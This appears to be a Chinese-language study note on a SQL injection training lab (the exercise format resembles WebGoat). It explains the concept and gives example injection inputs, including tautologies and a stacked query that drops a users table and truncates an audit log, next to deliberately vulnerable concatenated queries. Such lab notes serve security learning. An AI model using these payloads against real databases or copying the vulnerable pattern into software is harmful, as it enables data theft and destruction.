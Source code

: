 ## 0x01 Concept & Goals
SQL注入概念和课程目标  
字符型注入、数字型注入  


## 0x02 What is SQL
说明SQL特点，没有标准版本，各厂商实现不同且有自身特性  
SQL :: Structured Query Language :: 结构化查询语言 包括数据操纵、定义、控制  


## 0x03 What is SQL Injection?
对数据库做出非预期操作，达到增删改查敏感数据的目的  


## 0x04 Consequences of SQL Injection
后果就是对数据影响呀，可小可大  
常见于php、asp、cold fusion等  


## 0x05 Severity of SQL Injection
看情况呗  


## 0x06 Example of SQL Injection
```
userName = Smith' or '1'='1

userName =' or 1=1 --

userID = 1234567 or 1=1

UserName = Smith';drop table users; truncate audit_log;--
```


## 0x07 Try It! String SQL Injection
相关SQL语句代码为：  
```
"select * from users where LAST_NAME = "'" + userName + "'";
```
输入 1' or '1'='1  
回车即可  


## 0x08 Try It! Numeric SQL Injection
相关SQL语句代码为：  
```
"select * from users where USERID = "  + userID;
```
输入 1 or 1=1  
回车即可  